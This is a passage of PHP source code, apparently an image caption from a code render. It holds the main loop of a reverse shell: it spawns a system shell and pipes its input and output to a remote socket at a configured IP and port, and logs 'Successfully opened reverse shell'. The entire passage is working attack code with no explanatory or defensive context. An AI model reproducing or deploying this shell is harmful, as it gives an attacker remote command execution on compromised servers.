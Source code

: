 ```php
if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
    if (feof($sock)) {
        printit("ERROR: Shell connection terminated");
        break;
    }
    if (feof($pipes[1])) {
        printit("ERROR: Shell process terminated");
        break;
    }
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
    if (in_array($sock, $read_a)) {
        if ($debug) printit("SOCK READ");
        $input = fread($sock, $chunk_size);
        if ($debug) printit("SOCK: $input");
        fwrite($pipes[0], $input);
    }
    
    if (in_array($pipes[1], $read_a)) {
        if ($debug) printit("STDOUT READ");
        $input = fread($pipes[1], $chunk_size);
        if ($debug) printit("STDOUT: $input");
        fwrite($sock, $input);
    }
    
    if (in_array($pipes[2], $read_a)) {
        if ($debug) printit("STDERR READ");
        $input = fread($pipes[2], $chunk_size);
        if ($debug) printit("STDERR: $input");
        fwrite($sock, $input);
    }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
```